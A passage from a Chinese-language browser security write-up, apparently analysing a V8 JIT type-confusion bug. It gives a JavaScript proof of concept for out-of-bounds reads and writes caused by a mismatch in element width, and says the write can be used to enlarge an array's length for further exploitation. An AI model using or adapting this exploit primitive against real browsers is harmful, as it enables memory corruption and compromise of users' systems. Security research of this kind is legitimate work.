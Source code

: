 ```cpp
 - construction counter: 0
```

所以从现在开始，我将使用这些数组来代替。随着这些技术细节的解决，可以构建出一个实现数据越界读写的poc：

```javascript
function foo(b) {
  x = b;
}

function oobRead() {
  return [x[20],x[24]];
}

function oobWrite(addr) {
  x[24] = addr;
}

//All have same map, SMI elements, MapA
var arr0 = new Array(10); arr0.fill(1);arr0.a = 1;
var arr1 = new Array(10); arr1.fill(2);arr1.a = 1;
var arr2 = new Array(10); arr2.fill(3); arr2.a = 1;

var x = arr0;

var arr = new Array(30); arr.fill(4); arr.a = 1;

//Optimzie foo
for (let i = 0; i < 19321; i++) {
  if (i == 19319) arr2[0] = 1.1;
  foo(arr1);
}
//x now has double elements, MapB
x[0] = 1.1;
//optimize oobRead
for (let i = 0; i < 20000; i++) {
  oobRead();
}
//optimize oobWrite
for (let i = 0; i < 20000; i++) oobWrite(1.1);
//Restore map back to MapA, with SMI elements
foo(arr);
var z = oobRead(); 
oobWrite(0x41414141);
```

在优化oobRead和oobWrite前，x的map为MapB并且其Element kind为`HOLEY_DOUBLE_ELEMENTS`。这意味着，例如，当在oobWrite中写到第24个元素(x[24])时，jit代码访问数组元素的偏移会基于`HOLEY_DOUBLE_ELEMENTS`来计算（也就是8），所以例子中的偏移计算会是8*24。然而在我们使用foo函数将x设置为arr时，arr的Element kind是`HOLEY_SMI_ELEMENTS`类型，它的宽度为4，这意味着其backing store（也就是elements）总共才4 * 30 字节长，这比8 * 24小得多。因此对偏移量8*24处的写入将会是一个越界的写入。

利用该写入将一个数组的长度改为很大的值，就可以进行后续的利用了。
